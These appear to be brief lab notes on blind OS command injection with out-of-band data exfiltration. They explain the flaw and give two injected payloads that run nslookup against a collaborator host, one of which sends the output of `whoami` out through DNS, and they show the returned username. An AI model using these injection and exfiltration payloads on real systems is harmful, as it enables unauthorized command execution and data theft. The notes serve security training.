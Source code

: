 ## Blind OS command injection with out-of-band data exfiltration
Vuln: executes a shell command containing the user-supplied details
    -asynchronus
    -not possible to redirect output into a location that you can access.
soln:
& nslookup 2uxesrnshp02ri17pclzzswrwi29qzeo.oastify.com #

& nslookup `whoami`.2uxesrnshp02ri17pclzzswrwi29qzeo.oastify.com #

O/p: peter-oEl6Gp.2uxesrnshp02ri17pclzzswrwi29qzeo.oastify.com